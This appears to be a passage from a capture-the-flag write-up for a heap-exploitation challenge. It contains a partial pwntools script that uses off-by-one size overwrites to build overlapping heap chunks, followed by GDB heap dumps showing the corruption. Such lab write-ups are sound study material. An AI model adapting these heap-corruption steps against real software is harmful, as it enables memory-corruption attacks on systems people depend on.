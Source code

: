 ```python
def BeSavior(index):
    p.recvline(">\n")
    p.sendline("3")
    p.recvuntil(">")
    p.sendline(str(index))

Join(1,"\n") # index: 0, Vocal 1
Join(2, "\n") # index: 1, Guitar 1
Join(5, "\n") # index: 2, Keyboard 1
Join(1, "\n") # index: 3, Vocal 2
Join(6, "\n") # index: 4, Trumpet 1

for i in range(3):
    Join(3, "\n") # index: 5,6,7, Bassist 3

for i in range(3):
    Join(5, "\n") # index: 8,9,10, Keyboard 4

BeSavior(5)
BeSavior(6)
BeSavior(7)
BeSavior(8)
BeSavior(9)
BeSavior(10)

BeSavior(3) 
Join(1, "A"*0x17+"\xc1") # index: 11, Vocal 3
BeSavior(4)

BeSavior(2) # unsortbin

BeSavior(0)
Join(1, "A"*0x17+"\x61") # index: 12, Vocal 4
BeSavior(1)
Join(4, "A"*0x3e+"\n") # index: 13, Drummer 1

pause()

p.interactive()
```

```bash
gdb-peda$ par
addr                prev                size                 status              fd                bk                
0x55f4b3311000      0x0                 0x250                Used                None              None
0x55f4b3311250      0x0                 0x1010               Used                None              None
0x55f4b3312260      0x0                 0x20                 Used                None              None
0x55f4b3312280      0x4141414141414141  0x60                 Freed 0x41414141414141000x4141414141414141
Corrupt ?! (size == 0) (0x55f4b33122e0)
gdb-peda$ x/20gx 0x55f4b3312260
0x55f4b3312260:	0x0000000000000000	0x0000000000000021
0x55f4b3312270:	0x4141414141414100	0x4141414141414141
0x55f4b3312280:	0x4141414141414141	0x0000000000000061
0x55f4b3312290:	0x4141414141414100	0x4141414141414141
0x55f4b33122a0:	0x4141414141414141	0x4141414141414141
0x55f4b33122b0:	0x4141414141414141	0x4141414141414141
0x55f4b33122c0:	0x4141414141414141	0x0a41414141414141
0x55f4b33122d0:	0x00007f777d392ca0	0x00007f777d392ca0
0x55f4b33122e0:	0x0000000000000000	0x0000000000000000
```